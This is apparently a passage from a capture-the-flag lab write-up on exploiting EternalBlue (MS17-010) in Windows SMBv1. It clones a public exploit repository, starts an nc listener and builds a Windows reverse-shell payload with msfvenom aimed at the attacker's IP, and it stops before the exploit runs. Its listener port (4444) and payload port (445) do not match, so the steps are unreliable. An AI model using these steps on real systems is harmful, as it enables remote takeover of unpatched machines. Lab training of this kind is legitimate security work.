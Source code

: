 The SMBv1 server in 

- Microsoft Windows Vista SP2;
- Windows Server 2008 SP2 and R2 SP1;
- Windows 7 SP1;
- Windows 8.1;
- Windows Server 2012 Gold and R2;
- Windows RT 8.1;
- and Windows 10 Gold, 1511, and 1607;
- and Windows Server 2016

allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." 

This vulnerability is different from those described in CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.

## Exploiting EternalBlue

To exploit this vulnerability, we have to first download the exploit code from Github:

```powershell
git clone https://github.com/helviojunior/MS17-010.git
```

Next we have to set up a listener:

```powershell
nc -nvlp 4444
```

This will give us the following output:

![Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%204.png](Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%204.png)

To craft the payload for the exploit, we run the following command with our kali's IP and listening port:

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=445 -f exe > eternalblue.exe
```

The compilation using msfvenom will craft an executable named eternalblue.exe as follows:

![Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%205.png](Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%205.png)

Next, we simply have to run send_and_execute.py from the exploit code we downloaded above:
